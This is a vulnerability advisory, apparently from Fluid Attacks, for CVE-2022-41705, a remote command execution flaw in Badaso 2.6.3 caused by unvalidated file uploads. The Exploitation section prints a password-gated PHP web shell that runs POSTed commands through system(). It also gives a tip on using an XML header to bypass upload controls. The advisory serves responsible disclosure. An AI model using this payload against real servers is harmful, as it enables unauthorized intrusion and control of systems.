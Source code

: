 ```yaml
---
slug: advisories/headhunterz/
title: Badaso 2.6.3 - Remote Command Execution
authors: Carlos Bello
writer: cbello
codename: headhunterz
product: Badaso 2.6.3 - RCE
date: 2022-11-17 09:30 COT
cveid: CVE-2022-41705
severity: 10.0
description: Badaso 2.6.3    -    Remote Command Execution (RCE)
keywords: Fluid Attacks, Security, Vulnerabilities, Badaso, RCE
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | Badaso 2.6.3 - RCE                                                 |
| **Code name**         | [Headhunterz](https://en.wikipedia.org/wiki/Headhunterz)           |
| **Product**           | Badaso                                                             |
| **Affected versions** | Version 2.6.3                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-11-17                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Remote command execution                                                                                                    |
| **Rule**              | [004. Remote command execution](https://docs.fluidattacks.com/criteria/vulnerabilities/004)                                 |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 10.0                                                                                                                        |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41705](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41705)                                             |

## Description

Badaso version 2.6.3 allows an unauthenticated remote attacker to
execute arbitrary code remotely on the server. This is possible
because the application does not properly validate the data uploaded
by users.

## Vulnerability

This vulnerability occurs because the application does not correctly
validate files uploaded by users. Thanks to this, we uploaded a file
with malicious PHP code, instead of an image file.

## Exploitation

To exploit this vulnerability, the following file must be sent to the
server:

### exploit.php

```php
<?xml version="1.0" standalone="no"?>
<?php
    if($_POST && $_POST['password']==="AGSH635479302H235") {
        echo system($_POST['cmd']);
    }
?>
```

It is important to put an XML header before the malicious code to
bypass security controls.

## Evidence of exploitation

![RCE-badaso](https://user-images.githubusercontent.com/51862990/196501094-37997697-2346-42a6-891c-b2044cf8d0b8.gif)

![image](https://user-images.githubusercontent.com/51862990/196500837-06a8ce8a-3fff-42cc-b3b9-8aad023719f2.png)

## Our security policy

We have reserved the CVE-2022-41705 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Badaso 2.6.3

* Operating System: GNU/Linux

## Mitigation

An updated version of Badaso is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/uasoft-indonesia/badaso>

**Issue** <https://github.com/uasoft-indonesia/badaso/issues/818>

## Timeline

<time-lapse
  discovered="2022-10-24"
  contacted="2022-10-24"
  replied="2022-10-24"
  confirmed="2022-10-26"
  patched=""
  disclosure="2022-11-17">
</time-lapse>
